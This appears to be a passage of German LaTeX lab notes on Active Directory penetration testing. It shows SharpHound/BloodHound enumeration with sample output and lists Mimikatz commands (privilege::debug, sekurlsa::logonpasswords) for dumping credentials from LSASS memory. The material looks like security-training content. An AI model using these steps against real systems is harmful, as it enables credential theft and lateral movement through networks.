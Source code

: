 Bloodhound kann weiterhin verwendet werden, um eine Übersicht über alle kompromitierten Systeme zu erhalten. Dabei kann nun jeweils das neu übernommene System/ Account als "owned" markiert werden und Bloodhound kann so neue Angriffsmöglichkeiten/ Angriffswege berechnen.

\paragraph{Ausführen}\mbox{} \\
Auf einem AD gejointem Client

\begin{lstlisting}[language=PowerShell]
    # ergibt ein ZIP
    > .\SharpHound.exe -c All,GPOLocalGroup

    - Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container, GPOLocalGroup
    ...
    Status: 106 objects finished (+106 26.5)/s -- Using 30 MB RAM
    Enumeration finished in 00:00:04.6680493
    Compressing data to .\20200909103934_BloodHound.zip    
\end{lstlisting}

Daten können nun im Bloodhound GUI anschauen
\begin{itemize}
    \item zeigt alle Abhängigkeiten im AD auf
    \item \textbf{man kann angeben was man schon owned, dann werden die möglichen Angriffe aufgezeigt und auf was man los soll}\\
\end{itemize}

\subsection{Step 4: Credential Dumping on Windows 10 Client}
Wenn Sie über lokale administrative Rechte auf einem Windows-Rechner verfügen, können Sie dies missbrauchen, um verschiedene Formen von Anmeldeinformationen abzurufen, die auf dem jeweiligen Rechner gespeichert sind. Dazu gehören Anmeldedaten lokaler Benutzerkonten (die in der SAM-Datei gespeichert sind) sowie vorübergehend zwischengespeicherte Anmeldedaten aktuell angemeldeter Benutzer (die im Speicher des lsass-Prozesses gehalten werden).\\

\begin{itemize}
    \item Run as Admin mit dem neu selbst gemachten User aus der Aufgabe von vorhin
    \item privilege::debug - um Lsass Credentials zu droppen
    \item log my\_log.txt - logging aktivieren
    \item sekurlsa::logonpasswords - \textbf{effektive Credentials auslesen}\\
\end{itemize}

